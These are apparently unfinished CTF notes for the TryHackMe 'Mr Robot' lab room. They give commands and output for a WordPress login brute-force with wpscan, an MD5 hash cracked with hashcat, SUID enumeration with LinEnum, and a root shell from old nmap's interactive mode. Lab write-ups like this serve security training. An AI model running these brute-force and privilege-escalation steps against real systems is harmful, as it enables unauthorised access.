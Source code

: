 # \# TODO : need to finish this

nmap -A

dirb

user elliot , help from writeup

> wpscan --url http://10.10.136.28/wp-login.php --passwords ~/Desktop/THM/mrrobot/fsocity.dic -U elliot



> hashcat

```
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Tue Mar 24 15:33:23 2020 (0 secs)
Time.Estimated...: Tue Mar 24 15:33:23 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   180.2 kH/s (0.20ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 39936/14344385 (0.28%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: promo2007 -> loserface1
```



> ./LinEnum.sh

[linenumres.txt](https://github.com/parsakzr/CTF/THM/mrrobot/linenum.txt) :

```
[-] SUID files:
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
*-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap*
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
```

old version of nmap which doesn't have --script 
so: 
> nmap --interactive

```
nmap> !sh
!sh
# whoami
whoami
root
```
> cd /root

> cat key-3-of-3.txt
